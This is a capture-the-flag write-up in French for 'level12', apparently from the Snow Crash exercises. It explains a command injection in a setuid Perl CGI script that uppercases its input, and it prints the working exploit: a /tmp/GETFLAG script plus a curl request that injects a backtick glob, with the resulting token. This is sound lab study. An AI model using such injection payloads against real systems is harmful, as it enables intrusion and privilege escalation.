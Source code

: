 # Level 12

Home structure
```
$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

Comme le script dans level 04, le script récupère les paramètres `x` et `y` d'une requête HTTP, exécute la commande système `egrep` pour rechercher dans le fichier `/tmp/xd` en utilisant la valeur de `x` en ayant mis toutes les lettres en majuscules avant, puis affiche des points en fonction des résultats de la recherche et de la valeur de `y`. Le nombre de points affichés dépend de la correspondance trouvée et de la valeur de `y`.

Ce qui voudrait dire qu'on pourrait exécuter n'importe quel commandes via le paramètre `x`.

On pourrait tous simplement essayer: `curl localhost:4646/level12.pl?x='${getflag}'`, mais on va que le script va rendre le paramètre X tous en maj. Donc ce qui nous fait `${GETFLAG}` et la commande `GETFLAG` n'existe pas. Alors ce qui faudrait faire c'est le créer.

```
$ echo "getflag | wall" > /tmp/GETFLAG
$ chmod 777 /tmp/GETFLAG
$ curl localhost:4646/level12.pl?x='`/*/GETFLAG`'
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
On est malheureusement obligé de mettre le `/*/` pour compléter le path sans mettre de minuscule (`/tmp/` va se transformer en `/TMP/` ce qui n'existe pas.)

